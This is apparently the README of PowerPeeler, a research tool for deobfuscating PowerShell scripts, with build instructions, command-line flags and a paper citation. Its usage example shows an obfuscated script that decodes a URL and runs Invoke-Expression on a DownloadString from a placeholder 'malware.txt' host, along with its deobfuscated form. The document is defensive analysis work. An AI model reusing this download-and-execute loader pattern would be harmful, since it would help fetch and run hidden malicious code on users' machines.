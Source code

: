 # PowerPeeler

>一款通用且精确的PowerShell脚本反混淆器



### 相关资料

- 会议版论文：in coming

  会议版代码请切换至paper-version分支
- 完整版论文：[arxiv](https://arxiv.org/abs/2406.04027)



### 使用方法

1. 编译环境需求

   - 基本环境：参见[PowerShell官方编译指南](https://github.com/PowerShell/PowerShell#building-the-repository)
   - .net core 7.0.101
   - pwsh/powershell

2. 运行环境

   - PSScriptAnalyzer（可选，用于代码格式化）
   - [Invoke-Deobfuscation](https://gitee.com/snowroll/invoke-deobfuscation)（可选，用于动静态结合反混淆）

3. 工具获取

   ```bash
   git clone https://github.com/zhengbili/PowerPeeler
   ```

   或

   ```bash
   git clone https://gitee.com/snowroll/powerpeeler
   ```

4. 沙箱编译

   ```powershell
   cd PowerPeeler
   pwsh ./build.ps1
   ```

5. 工具使用

   1. 切换目录，防止部分恶意脚本污染当前目录：```cd sandbox```
   2. 进入特殊pwsh环境：```../pwsh```
   3. 在特殊pwsh环境中执行反混淆脚本

   ```powershell
   ../Deobfuscation/deob.ps1 --SettingType [Simple|Analysis|SemanticAnalysis]  --InputPath 输入文件位置 --OutputPath 输出文件位置 [-cmd] [-log]
   ```
   ​	```-st --SettingType```	反混淆模式，有几种预设，可自行修改代码
   ​	```-ip --InputPath```	输入文件位置
   ​	```-op --OutputPath```	输出文件位置
   ​	```-cmd --IsCmd```	cmd一句话模式
   ​	```-log --SaveLog```	保存日志，可用于反混淆结构查看器



### 使用示例

> samples/unittest.ps1中包含了多种不同类型的测试样例，可参阅

```../pwsh ../Deobfuscation/deob.ps1 -ip in.ps1 -op out.ps1```

- in.ps1

  ```powershell
  Ie`X ("{2}{0}{1}" -f 'ost h', 'ello', 'write-h')
  $xdjmd  =   'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG'
  $lsffs =   '8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA='
  $sdfs = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($xdjmd + $lsffs))
  .($psHoME[4]+$PShOmE[30]+'x') (Ne`W-oB`JeCt Net.Web`C`lient).downloadstring($sdfs)
  ```

- out.ps1

  ```
  Write-Host ([string]'hello')
  $xdjmd = ([string]'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG')
  $lsffs = ([string]'8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA=')
  $sdfs = ([string]'https://test.com/malware.txt')
  .'Invoke-Expression' (New-Object ([string]'Net.WebClient')).DownloadString(([string]'https://test.com/malware.txt'))
  ```



### 反混淆结构查看器

> 参考二进制反混淆的层级结构查看器

由于采用了直接变量替换，直接采用反混淆脚本存在部分反混淆过度的问题。为方便用户自行确定反混淆边界，```Deobfuscation/```下提供了一个简易的反混淆结构查看器。



### 引用格式

```
@misc{li2024powerpeelerprecisegeneraldynamic,
      title={PowerPeeler: A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts}, 
      author={Ruijie Li and Chenyang Zhang and Huajun Chai and Lingyun Ying and Haixin Duan and Jun Tao},
      year={2024},
      eprint={2406.04027},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2406.04027}, 
}
```



